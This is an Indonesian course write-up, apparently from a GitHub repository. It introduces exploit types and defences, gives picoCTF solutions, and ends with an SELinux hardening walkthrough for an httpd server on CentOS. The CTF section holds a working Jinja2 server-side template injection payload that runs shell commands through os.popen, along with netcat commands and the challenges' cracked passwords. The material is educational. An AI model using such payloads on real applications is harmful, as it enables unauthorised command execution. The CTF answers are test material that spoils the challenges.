



# A. Exploit Introduction

<p align="center">
  
</p>

---

## Apa itu Exploit

Exploit adalah proses di mana seorang peretas (hacker) memanfaatkan kelemahan atau *vulnerability* dalam sistem untuk mendapatkan akses, mengendalikan, atau merusak jaringan dan perangkat. Ini merupakan bagian dari rantai serangan yang lebih besar, di mana menemukan dan memanfaatkan celah keamanan adalah kunci untuk menyusup ke sistem target.

---

## Jenis-Jenis Exploit

<p align="center">
  
</p>

* **Remote Code Execution (RCE)**
 teknik serangan yang melibatkan Peretas jahat yang mendapatkan akses tidak sah ke sistem atau perangkat yang ditargetkan dari lokasi jarak jauh. Akses ini memungkinkan penyerang untuk mengeksekusi kode arbitrer, pada dasarnya mengambil kendali atas sistem yang disusupi. 
 <br>

* **Privilege Escalation**
teknik yang digunakan oleh penyerang untuk mendapatkan akses lebih tinggi atau lebih luas dalam sistem komputer atau jaringan dari hak akses yang mereka miliki.
<br>

* **Denial of Service (DoS)**
salah satu jenis serangan siber yang berusaha untuk membuat layanan atau sumber daya pada suatu sistem tidak dapat diakses oleh pengguna yang sah. Serangan ini dapat menyebabkan gangguan besar pada operasi bisnis, merusak reputasi, dan menyebabkan kerugian finansial.
<br>

* **Zero-Day Exploit**
metode peretas untuk menyerang sistem dengan celah keamanan yang tidak teridentifikasi sebelumnya. Disebut serangan zero day jika zero day dimanfaatkan untuk merusak atau mencuri data dari sistem yang terkena dampak celah keamanan.

---

## Langkah-Langkah Eksploitasi

<p align="center">
  
</p>

1. **Information Gathering (Pengumpulan Informasi)**
2. **Penemuan Vulnerability**
3. **Pelaksanaan Exploit**
4. **Pasca-eksploitasi**

---

## Contoh Eksploitasi Terkenal

<p align="center">
   
</p>

* *Heartbleed* (2014)
* *EternalBlue* (2017)

---

## Melindungi Sistem dari Eksploitasi

<p align="center">
  
</p>

* **Patching dan Pembaruan**
* **Anti-virus Software**
* **Penetration Testing**
* **Monitoring dan Deteksi Intrusi**

---

## Kesimpulan

> Eksploitasi adalah ancaman serius dalam dunia **cyber security**, di mana peretas memanfaatkan kelemahan dalam sistem untuk melancarkan serangan. Memahami bagaimana proses exploit terjadi dan jenis-jenisnya dapat membantu pengembang dan administrator jaringan dalam mengambil langkah-la5ngkah yang tepat untuk melindungi sistem mereka. Pencegahan seperti patching yang tepat waktu, *penetration testing*, dan monitoring aktif adalah kunci utama untuk meminimalkan risiko serangan exploit.

---

## Praktik


---
## (Pico CTF)
<p align="center">
  
</p>

### 1. SSTI 1

ls python code

```code
{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read()}}
```

cat flag python code

```code
{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read()}}
```
<br>

### 2. FANTASY CTF

gunakan webshell dan netcat untuk mengetahui flag.
```code
nc verbal-sleep.picoctf.net 52486
```
<br>

### 3. hashcrack

login to game in webshell
```code
nc verbal-sleep.picoctf.net 62644
```

 - pertama MD5
```code
password123
```

- kedua SHA-1
```code
letmein
```

- ketiga SHA-256
```code
qwerty098
```
---

# B. Hardening Whitelisting Selinux (Linux machines)

<p align="center">
  
</p>

Pada kesempatan kali ini saya akan menggunakan Linux CentOS

---

## Konfigurasi

1. Install Web Server httpd

```code
yum install -y httpd
```

2. Tampahkan port 80 tcp
```code
firewall-cmd --permanent --add-port=80/tcp
```

3. Buat direktori untuk file html dan isi filenya
```code
# mkdir -p /web1/html/
# echo "Welcome to Website 1" > /web1/html/index.html
```

4. edit isi file config dari httpd_conf

```code
# vi /etc/httpd/conf/httpd_conf

# Ubah isi config bagian berikut
DocumentRoot "/web1/html"
<Directory "/web1/html">
```

5. Aktifkan Web Server httpd
```code
systemctl start httpd
```

6. Konfigurasi Hardening Whitelisting Selinux (**Bagian Utama**)
```code
# semanage fcontext -a -t httpd_sys_content_t "/web1(/.*)?"
# restorecon -R /web1
```


---